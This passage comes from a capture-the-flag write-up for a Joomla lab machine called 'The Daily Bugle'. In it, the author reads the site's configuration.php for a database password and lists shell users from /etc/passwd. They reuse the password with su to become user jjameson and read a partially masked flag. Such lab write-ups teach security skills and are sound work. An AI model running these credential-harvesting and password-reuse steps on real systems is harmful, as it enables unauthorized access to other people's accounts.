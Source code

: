 The `/var/www/html/configuration.php` file seems juicy, let's see what's inside.

```bash
bash-4.2$ cat /var/www/html/configuration.php
<?php
class JConfig {
	public $offline = '0';
	public $offline_message = 'This site is down for maintenance.<br />Please check back again soon.';
	public $display_offline_message = '1';
	public $offline_image = '';
	public $sitename = 'The Daily Bugle';
	public $editor = 'tinymce';
	public $captcha = '0';
	public $list_limit = '20';
	public $access = '1';
	public $debug = '0';
	public $debug_lang = '0';
	public $dbtype = 'mysqli';
	public $host = 'localhost';
	public $user = 'root';
	public $password = 'nv5uz9******VjNu';
	public $db = 'joomla';
	public $dbprefix = 'fb9j5_';
```

Bingo, we found valid credentials for the `mySQL` database, that doesn't give us any value, since we already got access to the database, but we can try if they did reuse the credentials in any system user.

```bash
bash-4.2$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
jjameson:x:1000:1000:Jonah Jameson:/home/jjameson:/bin/bash
```

There are two users in the target machine, i tried login as `root` but it didn't work, but after trying with the user `jjameson` and we get successfully login.

```bash
bash-4.2$ su jjameson
Password: ***********
[jjameson@dailybugle /]$ whoami
jjameson
```

---

## Shell as JJameson

Once as user `jjameson` we can read the `user.txt` flag at `/home/jjameson/user.txt`.

```bash
[jjameson@dailybugle ~]$ cat /home/jjameson/user.txt 
27a******cba712cfd******6d80442e
```
